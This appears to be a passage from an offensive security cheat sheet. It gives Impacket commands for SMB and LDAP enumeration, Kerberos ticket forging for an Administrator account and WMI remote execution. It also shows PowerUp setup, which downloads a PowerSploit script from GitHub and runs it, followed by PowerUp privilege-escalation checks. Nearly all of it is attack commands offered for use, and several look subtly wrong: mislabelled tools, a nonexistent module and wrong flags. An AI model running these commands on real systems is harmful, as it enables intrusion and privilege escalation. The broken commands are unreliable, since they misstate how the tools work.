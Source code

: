 #### **Impacket Usage Examples**
```powershell
# Example 1: SMB enumeration
python -m impacket.smbclient -no-pass -target-ip 192.168.1.10

# Example 2: LDAP enumeration
python -m impacket.ldapsearch -no-pass -target-ip 192.168.1.10 -domain corp.local

# Example 3: Kerberos ticket extraction
python -m impacket.ticketer -nthash USER_HASH -domain-sid DOMAIN_SID -domain corp.local Administrator

# Example 4: WMI execution
python -m impacket.wmiexec -no-pass -target-ip 192.168.1.10 -command "whoami"
```

---

## 🚀 **PERSISTENCE & POST-EXPLOITATION TOOLS**

### **⚡ PowerUp Complete Setup** ^powerup

#### **What is PowerUp?**
**PowerUp** is a PowerShell module for privilege escalation and persistence. It includes functions for finding and exploiting common misconfigurations.

#### **Setup & Installation**
```powershell
# Step 1: Download PowerUp
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1" -OutFile "PowerUp.ps1"

# Step 2: Load PowerUp
. .\PowerUp.ps1

# Step 3: Verify loading
Get-Command -Module PowerUp | Measure-Object | Select-Object Count
```

#### **PowerUp Usage Examples**
```powershell
# Example 1: Find privilege escalation vectors
Invoke-AllChecks

# Example 2: Find unquoted service paths
Get-UnquotedService

# Example 3: Find modifiable service binaries
Get-ModifiableServiceFile

# Example 4: Find modifiable service configurations
Get-ModifiableService

# Example 5: Find modifiable registry keys
Get-RegistryAlwaysInstallElevated
```

---